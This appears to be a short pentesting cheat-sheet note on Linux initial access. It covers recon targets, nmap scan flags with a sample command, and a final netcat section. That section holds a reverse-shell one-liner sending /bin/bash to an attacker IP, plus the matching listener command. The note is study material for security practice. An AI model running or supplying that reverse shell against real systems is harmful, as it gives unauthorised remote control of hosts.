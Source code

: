 # linux - initial access

### recon

Look for:

* insecure services on open ports
* common protocols
* insecure version of software
* websites, login pages, ssh, databases, ftp
* scripts, misconfigured permissions, other vulns

Common things

* weak creds
* generous permissions
* vague variables

### nmap

##### flags

* `-sS` - TCP syn port scan
  * we send SYN, server sends ACK or SYN/ACK, that means port is open
  * stealthy scan and very fast
  * default w/ root
* `-sT` - TCP connect port scan
  * establishes full connection then tears down connection
  * default w/out root
* `-sU` - UDP port scan
  * scans for UDP ports
* `-sA` - TCP ack port scan
  * uses packets with only ACK flag, check whether firewall is stateful or stateless
* `-sC` - default scripted scan
* `-sV` - version lookup
* `-oA` - output in all formats
* `-v` - verbose

##### sample

```bash
nmap <ip-address>
```

### netcat

* `nc <attacker-ip> <port-number> -c /bin/bash`

* `nc -nvlp <port-number>`